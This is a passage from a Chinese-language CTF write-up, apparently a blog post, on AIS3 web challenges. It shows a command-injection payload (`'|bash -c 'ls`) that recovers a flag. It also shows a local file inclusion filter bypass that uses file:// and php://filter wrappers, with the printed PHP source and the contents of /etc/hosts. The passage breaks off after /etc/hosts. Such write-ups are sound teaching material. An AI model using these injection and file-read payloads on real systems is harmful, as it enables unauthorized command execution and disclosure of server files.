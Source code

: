 看起來是 command injection，`/api.php?get='|bash -c 'ls` 就可以執行任意 command 了，`ls /` 看根目錄有個 `5qu1rr3l_15_4_k1nd_0f_b16_r47.txt` 裡面就是 flag 了 ( 剛好檔名跟 flag 一樣，真佛心 )

```
AIS3{5qu1rr3l_15_4_k1nd_0f_b16_r47}
```

### Shark

這題網站在 https://shark.ais3.org/，首頁有個連結點下去就是 `/?path=hint.txt`，又是 local file inclusion，但是 hint 說

```
Please find the other server in the internal network! (flag is on that server)

    GET http://some-internal-server/flag
```

那就先看一下原始碼 `/?path=/var/www/html/index.php`，直接看會拿到 `[forbidden]`，那隨便繞一下 `/?path=file:///var/www/html/index.php`

```php
<?php

    if ($path = @$_GET['path']) {
        if (preg_match('/^(\.|\/)/', $path)) {
            // disallow /path/like/this and ../this
            die('<pre>[forbidden]</pre>');
        }
        $content = @file_get_contents($path, FALSE, NULL, 0, 1000);
        die('<pre>' . ($content ? htmlentities($content) : '[empty]') . '</pre>');
    }

?><!DOCTYPE html>
<head>
    <title>🦈🦈🦈</title>
    <meta charset="utf-8">
</head>
<body>
    <h1>🦈🦈🦈</h1>
    <a href="?path=hint.txt">Shark never cries?</a>
</body>
```

有用 regex 檢查開頭不能是 `.` 和 `/`，所以 `file://` 或 `php://filter/read=convert.base64-encode/resource=` 都可以繞，再來看 `/?path=file:///etc/hosts`

```
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.22.0.3	02b23467485e
```
